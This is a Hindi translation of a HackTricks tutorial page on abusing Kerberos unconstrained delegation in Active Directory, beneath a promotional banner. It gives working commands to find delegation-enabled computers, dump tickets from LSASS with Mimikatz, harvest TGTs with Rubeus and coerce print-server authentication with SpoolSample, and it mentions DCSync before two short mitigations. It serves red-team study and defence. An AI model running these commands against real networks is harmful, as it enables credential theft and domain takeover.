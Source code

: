 # असीमित डिलीगेशन

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित देखना चाहते हैं**? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का एक्सेस चाहिए**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**दी पीएएस परिवार**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटीज**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **ट्विटर** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके**।

</details>

## असीमित डिलीगेशन

यह एक सुविधा है जिसे डोमेन प्रशासक किसी **कंप्यूटर** पर सेट कर सकता है। फिर, जब भी कोई **उपयोगकर्ता कंप्यूटर पर लॉगिन करता है**, तो उस उपयोगकर्ता का **एक प्रतिलिपि TGT** डीसी द्वारा प्रदान किए गए TGS में **भेजी जाएगी और LSASS में मेमोरी में सहेजी जाएगी**। इसलिए, अगर आपके पास मशीन पर प्रशासक विशेषाधिकार हैं, तो आप **टिकट्स को डंप करके उपयोगकर्ताओं का अनुकरण** कर सकेंगे।

तो यदि डोमेन प्रशासक "असीमित डिलीगेशन" सुविधा सक्रिय करके किसी कंप्यूटर में लॉगिन करता है, और आपके पास उस मशीन में स्थानीय प्रशासक विशेषाधिकार हैं, तो आप टिकट को डंप करके डोमेन प्रशासक का अनुकरण कहीं भी कर सकेंगे (डोमेन प्राइवेस्क)।

आप **इस गुणवत्ता वाले कंप्यूटर ऑब्जेक्ट्स को खोज सकते हैं** जांच करके कि [userAccountControl](https://msdn.microsoft.com/en-us/library/ms680832\(v=vs.85\).aspx) विशेषता में [ADS\_UF\_TRUSTED\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx) शामिल है। आप इसे एलडीएपी फ़िल्टर के साथ कर सकते हैं ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, जो पावरव्यू करता है:

<pre class="language-bash"><code class="lang-bash"># असीमित कंप्यूटरों की सूची
## पावरव्यू
Get-NetComputer -Unconstrained #डीसी हमेशा दिखाई देते हैं लेकिन प्राइवेस्क के लिए उपयोगी नहीं हैं
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Mimikatz के साथ टिकट्स निर्यात करें
</strong>privilege::debug
sekurlsa::tickets /export #सिफारिश की गई तरीका
kerberos::list /export #एक और तरीका

# लॉगिन को मॉनिटर करें और नए टिकट्स निर्यात करें
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #10 सेकंड में नए TGTs के लिए हर 10 सेकंड जांचें</code></pre>

**Mimikatz** या **Rubeus** के साथ प्रशासक (या पीड़ित उपयोगकर्ता) का टिकट मेमोरी में लोड करें [**पास द टिकट**](pass-the-ticket.md)** के लिए**।\
अधिक जानकारी: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**असीमित डिलीगेशन के बारे में अधिक जानकारी ired.team में।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **बल प्रमाणीकरण**

यदि एक हमलावर किसी कंप्यूटर को **"असीमित डिलीगेशन" के लिए अनुमति देने में सक्षम है**, तो वह एक **प्रिंट सर्वर** को **धोखा दे सकता है** कि वह खुद को **स्वचालित रूप से लॉगिन करेगा** जिससे सर्वर की मेमोरी में एक TGT सहेजा जाएगा।\
फिर, हमलावर उपयोगकर्ता प्रिंट सर्वर कंप्यूटर खाते का अनुकरण करने के लिए **पास द टिकट हमला** कर सकता है।

किसी भी मशीन के खिलाफ प्रिंट सर्वर लॉगिन करने के लिए आप [**SpoolSample**](https://github.com/leechristensen/SpoolSample) का उपयोग कर सकते हैं:
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
यदि TGT एक डोमेन कंट्रोलर से है, तो आप एक **DCSync हमला** कर सकते हैं और DC से सभी हैश प्राप्त कर सकते हैं।\
[**इस हमले के बारे में अधिक जानकारी ired.team में।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**यहाँ अन्य तरीके हैं जिनसे प्रमाणीकरण को मजबूर करने की कोशिश की जा सकती है:**

{% content-ref url="printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](printers-spooler-service-abuse.md)
{% endcontent-ref %}

### संशोधन

* DA/Admin लॉगिन को विशेष सेवाओं पर सीमित करें
* विशेषाधिकारी खातों के लिए "खाता संवेदनशील है और यह अनुप्रेषित नहीं किया जा सकता" सेट करें।
